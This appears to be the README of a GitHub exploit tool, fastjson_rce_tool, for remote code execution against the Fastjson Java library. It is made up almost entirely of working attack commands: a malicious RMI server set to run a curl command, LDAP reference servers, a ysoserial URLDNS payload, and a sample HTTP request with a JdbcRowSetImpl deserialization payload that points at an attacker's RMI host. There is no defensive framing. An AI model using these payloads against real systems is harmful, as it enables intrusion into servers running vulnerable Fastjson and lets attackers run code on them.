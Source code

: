 # fastjson_rce_tool

```
rmi:
java -cp fastjson_tool.jar EvilRMIServer 1099 53 "curl wyzxxz.cn"


ladp:
1.
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

2.
java -jar ysoserial6.jar URLDNS 'http://wyzxxz.cn'|base64 > base64_payload_file
java -cp fastjson_tool.jar LDAPRefServer2 8888  base64_payload_file

```

example：

```
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Object","autoCommit":true}
```


![0](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/work.png)

![1](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/2.png)

